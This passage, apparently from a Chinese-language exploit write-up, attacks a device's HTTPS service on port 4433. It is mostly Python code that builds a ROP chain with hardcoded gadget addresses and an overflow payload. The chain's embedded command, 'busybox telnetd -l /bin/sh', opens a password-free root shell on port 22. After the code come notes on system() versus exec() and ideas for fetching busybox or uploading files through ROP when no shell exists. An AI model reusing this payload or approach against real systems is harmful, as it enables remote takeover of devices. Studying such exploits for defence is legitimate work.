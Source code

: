 ```
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x000000000257008c)
ROP+=struct.pack('q',0x00000000043EC10)
ROP+=b'a'*8+b"/bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22"+b"\x00"*8
print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r\nHost: " + \
            ip.encode() + b"\r\nContent-Length: " + CL.encode() + \
            b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+payload

        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break

```  
### real环境下的攻击  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8df25og61H6lF9MSIFtULR55coDWEGnibLlXWeT862J5fjRZEwjggJaDjQ/640?wx_fmt=png&from=appmsg "")  
  
  
这里就不得不提一嘴 system和exec系列函数命令执行的区别了：  
  
  
1、system()和exec()都可以执行进程外的命令，system是在原进程上开辟了一个新的进程，但是exec是用新进程(命令)覆盖了原有的进程。  
2、system()和exec()都有能产生返回值，system的返回值并不影响原有进程，但是exec的返回值影响了原进程。  
3、system需要先启动一个shell才能运行指定的命令，调用system函数执行指定命令时，原进程会暂停等待，之后再继续进行；调用exec函数开启新进程后，原进程将被直接关闭。  
  
  
那这里没有/bin/sh 那我们命令执行可以攻击的思路是什么呢？ 我们为什么要这么做呢？  
  
  
1.我们可以通过命令执行下载编译好的busybox 来达到被阉割的shell现状  
  
  
2.我们可以直接通过rop上传我们要执行的文件  
  
